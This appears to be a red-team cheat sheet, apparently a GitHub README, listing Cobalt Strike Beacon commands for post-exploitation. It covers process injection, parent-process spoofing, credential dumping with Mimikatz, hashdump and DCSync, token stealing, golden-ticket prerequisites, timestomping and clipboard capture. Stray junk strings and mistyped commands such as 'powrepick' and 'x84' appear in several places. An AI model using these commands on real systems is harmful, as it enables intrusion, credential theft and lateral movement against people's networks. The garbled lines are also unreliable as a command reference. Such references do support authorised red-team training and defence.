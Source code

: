 <p align="center">
  <img width="700" height="150" src="https://github.com/bigb0sss/RedTeam/blob/master/01-CobaltStrike/cs_logo.png">
</p>

## Command References

### Beacons

##### Sleep

```css
sleep 60 50               ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly)
```

### Command Execution

##### Default

```css
run [command]wdedsaas
```
wqqdqw
##### powershell.exe

```css
powershell-import [/path/to/your.ps1]       ; Running it from your localhost
powershell [cmdlet] [args]
```

##### powerpick (Using PS w/o powershell.exe)
dqwdqwqd
```css
powrepick [cmdlet] [args]
```

##### psinject (Using PS within another process)

```css
psinject [PID] [x86|x64] [cmdlet] [args]
```

##### .NET

```css
execute-assembly [/path/to/your.exe]        ; Running it from your localhost
```

##### cmd.exe

```css
shell [command] [args]
```

### Session Passing

```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]
```

### Parent Process Modification

```css
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```

### SMB Beacn

```css
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

### TCP Beacn

```css
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

### Credentials and Hashes

```css
logonpasswords                              ; Run Mimikatz
hashdump                                    ; Get SAM database hashes
```

### Mimikatz

```css
mimikatz [command] [args]                   ; Runs a Mimikatz command
mimikatz ![command] [args]                  ; Elevate to SYSTEM and run Mimikatz command
mimikatz @[command] [args]                  ; User current token to run Mimikatz command
```

### DCSync

```css
dcsync [domain] [DOMAIN\user]
```

### File Download

```css
download [file]
cancel [file|*]
downloads
View --> Downloads --> Sync Files
```

### File Upload

```css
upload [/path/to/file]
timestomp [Destination] [Source]            ; Changing file's timestamps (*Do not recommend using it during the engagement)
```

### Token Stealing

```css
ps                                          ; List process
steal_token [PID]                           ; Stealing token
getuid                                      ; Identify/confirm who you are
rev2self                                    ; Drop/revoke token

spawnas DOMAIN\user password                ; Spawn a beacon w/ alternative creds
make_token DOMaIN\user password             ; Create a token. So when you do a make_token, when you do 'whoami' you will
                                            ; still see your current user account; however, if you do a remote 'whoami'
                                            ; (maybe against DC) you will see that the maked token user.
```

### Kerberos Tickets

```css
klist                                       ; See your current Kerberos tray
kerberos_ticket_purge                       ; Purge tickets
kerberos_ticket_user [/path/to/file.ticket] ; Load a ticket

<Golden Ticket>
- Desired user and DOMAIN name
- Domain SID [whoami /user + drop last number]
- NTLM hash of krbtgt user from DC
```

### Screenshots

```css
screenshot [pid] <x84|x64>
screenwatch [pid] <x84/x64>
printscreen
```

### Keylogging / ClipboardTheft

- [Start-ClipboardMonitor.ps1](https://github.com/HarmJ0y/Misc-PowerShell/blob/master/Start-ClipboardMonitor.ps1)

```css
psinject <Process ID> x64 Start-ClipboardMonitor -CollectionLimit 5
```
